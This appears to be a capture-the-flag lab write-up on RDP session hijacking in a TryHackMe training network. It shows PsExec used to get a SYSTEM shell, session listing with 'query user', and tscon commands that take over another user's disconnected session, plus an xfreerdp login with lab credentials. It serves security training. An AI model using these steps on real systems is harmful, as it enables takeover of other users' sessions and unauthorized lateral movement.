 
### RDP hijacking

> Remember to choose sessions that are inactive in real 

```bash
PsExec64.exe -accepteula -s cmd.exe
```

```bash
C:\> query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>administrator         rdp-tcp#6           2  Active          .  4/1/2022 4:09 AM
 luke                                    3  Disc            .  4/6/2022 6:51 AM
```

```bash
tscon 3 /dest:rdp-tcp#6
```


### Let's Get to Work!

```bash
xfreerdp /u:t2_kelly.blake /p:8LXuPeNHZFFG /v:thmjmp2.za.tryhackme.com /size:1800x900 /cert:ignore
```

```bash
PsExec64.exe -accepteula -s cmd
```

```bash
C:\Windows\system32>query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
 t1_toby.beck                              2  Disc            7  7/3/2023 2:11 PM
 t1_toby.beck1                             3  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck2                             4  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck3                             5  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck4                             6  Disc            6  7/3/2023 2:11 PM
 t1_toby.beck5                             7  Disc            6  7/3/2023 2:12 PM
 t2_kelly.blake        rdp-tcp#119         8  Active          .  7/3/2023 5:13 PM
```

```bash
tscon 2 /dest:rdp-tcp#119 
```
